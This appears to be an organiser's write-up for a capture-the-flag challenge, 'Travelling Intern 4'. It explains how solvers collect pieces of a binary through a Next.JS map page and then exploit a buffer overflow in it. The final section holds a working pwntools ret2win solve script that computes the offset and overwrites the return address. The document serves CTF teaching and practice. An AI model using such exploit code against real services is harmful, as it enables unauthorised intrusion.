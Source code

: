 # Travelling Intern 4

This is part of the "travelling intern" series that has 4 challenges in total.
The challenge is split into 2 segments, one through a `web` interface at port `8000`
to talk to a Next.JS server, the other through a `TCP` interface to communicate
with a vulnerable binary.

## Web Server

### Overview

The goal of this web server is to provide pieces of the compiled binary running
on the server, allowing them to piece it together to pwn the binary. Pieces of the
binary are revealed when the user clicks within a radius of the correct locations.
All of the locations can be found within the `travelling intern 1` and
`travelling intern 2` challenges.

The user is also supposed to figure out that the duck on screen is interactive,
allowing them to submit the solution for `traveling intern 3`.

### Solution

The user has to solve bot `travelling intern 1` and `travelling intern 2` to
figure out the locations. If they click within a certain radius of the correct spot,
a green marker would appear (image below), and a file popup would appear (image
further below), providing them with a piece of the binary.

![green_marker](green-marker.png)

![file_popup](file-popup.png)

Upon clicking on the duck, participants will find the following input form:

![form](form.png)

This is the final piece of the puzzle, where participants will input the
aircraft model from `travelling intern 3` to obtain the final piece of the binary.

## Pwn

After obtaining the binary, the participants can concatenate everything together
with a command similar to the following:

`cat binary-* > travelling-intern`

## Buffer Overflow

The `travelling-intern` binary, or the binary running on the server, contains a buffer
overflow that allows someone to perform a ret2win attack.

The following solve script can be used to exploit it and obtain the flag:

```py
from pwn import *

elf = ELF("./travelling-intern")

p = process("./travelling-intern")

p.recvuntil(b'> ')
p.sendline(cyclic(100, n=8))
p.wait()

core = p.corefile
offset = cyclic_find(core.read(core.rsp, 8), n=8)

print("[+] Found offset:", offset)

p = process("./travelling-intern")
# p = remote("<IP ADDRESS>", PORT)
p.recvuntil(b"> ")

payload = b"A" * offset
payload += p64(elf.sym["win"])

p.clean()
p.sendline(payload)
p.interactive()
```
